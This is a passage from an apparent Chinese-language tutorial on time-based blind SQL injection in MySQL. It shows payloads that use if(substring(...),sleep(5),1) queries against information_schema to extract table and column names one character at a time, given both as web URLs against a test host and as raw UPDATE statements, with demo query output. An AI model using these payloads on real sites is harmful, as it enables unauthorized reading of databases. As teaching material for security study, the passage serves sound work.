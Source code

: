 LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表

```plain
// 演示数据
mysql> SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1;
+------------+
| table_name |
+------------+
| tdb_admin  |
+------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql_save.php?data=if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',sleep(5),1)



数据库语句-读取当前库的第一张表名的第一个字: UPDATE test SET content=if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',sleep(5),1) WHERE id=1;



数据库语句-读取当前库的第一张表名的第二个字: UPDATE test SET content=if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),2,1)='d',sleep(5),1) WHERE id=1;

## 0x06 猜字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名



注意: limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0,1 = id

limit 1,1 = username

limit 2,1 = password

```plain
// 演示数据
mysql> SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1;
+-------------+
| column_name |
+-------------+
| id          |
+-------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql_save.php?data=if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',sleep(5),1)
